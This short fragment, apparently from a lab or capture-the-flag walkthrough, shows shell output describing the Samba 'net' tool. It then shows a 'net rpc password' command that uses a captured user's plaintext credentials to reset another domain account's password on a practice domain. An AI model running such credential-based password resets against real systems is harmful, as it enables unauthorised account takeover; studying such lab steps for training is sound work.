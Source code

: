 $ whatis net    
net (8)              - Tool for administration of Samba and remote CIFS servers.

$ net rpc password -U support%#00^BlackKnight -S BLACKFIELD.local audit2020 Passw0rd